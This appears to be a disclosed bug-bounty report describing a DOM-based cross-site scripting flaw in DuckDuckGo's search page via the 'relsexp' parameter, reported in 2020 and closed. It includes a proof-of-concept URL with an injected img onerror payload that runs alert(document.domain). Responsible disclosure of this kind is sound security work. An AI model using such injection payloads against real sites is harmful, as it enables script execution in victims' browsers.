 # DOM XSS on duckduckgo.com search

## Report Details
- **Report ID**: 876148
- **URL**: https://hackerone.com/reports/876148
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-05-16T18:33:39.971Z
- **Disclosed**: 2020-06-26T17:16:30.523Z

## Reporter
- **Username**: cujanovic
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: duckduckgo

## Vulnerability Information
Hello,
The is a DOM XSS vulnerability on https://duckduckgo.com search through the `relsexp` parameter.

PoC URL: ` https://duckduckgo.com/?q=a&relsexp="><img src=/ onerror=alert(document.domain)>&ia=web`

Screenshot:
{F830875}

Video:
{F830880}

## Impact

The attacker can execute JS code.

## Attachments
- Screen_Shot_2020-05-16_at_20.21.38.png
- Screen_Recording_2020-05-16_at_20.29.00.mov
